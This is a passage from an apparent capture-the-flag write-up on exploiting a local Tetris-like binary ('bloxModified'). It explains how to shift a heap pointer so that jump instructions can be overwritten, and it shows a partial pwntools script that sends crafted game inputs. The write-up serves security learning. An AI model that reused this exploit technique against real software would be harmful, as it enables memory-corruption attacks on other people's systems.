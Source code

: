 ### Step 3
The last step is essentially also the same as the first 2. We need to get our `heap_top` value to something, so we can reach our jumps and override them. However, now we can cheat a little and combine `Step 3` with `Step 1` and `Step 2`, since those jumps, are first, we can take the loop of `Step 1` for example, stop at such a jump, override and continue, without resetting the `heap_top`. This saves a lot of time.  
Something to override those jumps with, can for example just be a `B`, which is just: `inc edx`.



### Code
Putting this all together, resulted in the following code:
```python
from pwn import *
import math
import struct

currentScore = 1

p = process("./bloxModified")

def startGame():
    p.sendline("")

def die(name, score=0):
    if score == 0:
        p.send("wI " * 5)
        p.send(name)
        p.sendline("")
    else:
        #Try to optimize the code...
        rightLeft = score % 40

        stacksRight = int(math.floor(rightLeft / 2.0))
        stacksLeft = int(math.ceil(rightLeft / 2.0))
        totalStacks = int(math.floor(score / 40.0))

        for i in range((score // 40) * 4):
            p.send("I" + 5 * "a" + " ")
            p.send("I" + 1 * "a" + " ")
            p.send("I" + 3 * "d" + " ")  
        
        for i in range(stacksRight):
            p.send("I" + 3 * "d" + " ")
        
        for i in range(stacksLeft):
            p.send("I" + 5 * "a" + " ")

        p.send("wI " * 5)

        p.send(name)
        p.sendline("")

def enableCheats():
    for i in range(2):
        p.send(" "*12)
        
        p.sendline("AAA")
        p.sendline("")

    p.send("waaaaa ")
    p.send("aaa " * 2)
    p.send("c")
    p.send("ddw ")
```